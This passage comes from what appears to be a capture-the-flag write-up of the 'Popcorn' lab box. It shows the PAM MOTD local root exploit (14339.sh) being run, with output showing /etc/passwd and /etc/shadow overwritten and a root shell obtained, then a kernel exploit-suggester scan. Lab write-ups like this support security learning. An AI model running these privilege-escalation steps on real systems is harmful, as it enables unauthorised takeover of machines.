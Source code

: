 Searhing for motd in the package manager came up empty. Searching for PAM however indicates that the vulnerable version is installed.

Let's also verify that we run the OS that is specified in the vulnerability

```
cat /etc/issue                                                                                 
Ubuntu 9.10 \n \l 
```

Bingo, all prerequisites are met. Let's download the exploit and run it

```
www-data@popcorn:/dev/shm$ ./14339.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

### Dirty COW (CVE-2016-5195) 

Looking at the kernel of the box, it suggests that it could be vulnerable to a number of kernel exploits.

```
www-data@popcorn:/dev/shm$ perl linux-exploit-suggester-2.pl                                                                                                                                     
                                                                                                                                                                                                             
  #############################                                                                                                                                                                              
    Linux Exploit Suggester 2                                                                                                                                                                                
  #############################                                                                                                                                                                              
                                                                                                                                                                                                             
  Local Kernel: 2.6.31                                                                                                                                                                                       
  Searching among 71 exploits...                                                                                                                                                                             
                                                                                                                                                                                                             
  Possible Exploits:                                                                                                                                                                                         
[+] american-sign-language                                                                                                                                                                                   
     CVE-2010-4347                                                                                                                                                                                           
     Source: http://www.securityfocus.com/bid/45408/                                                                                                                                                         
```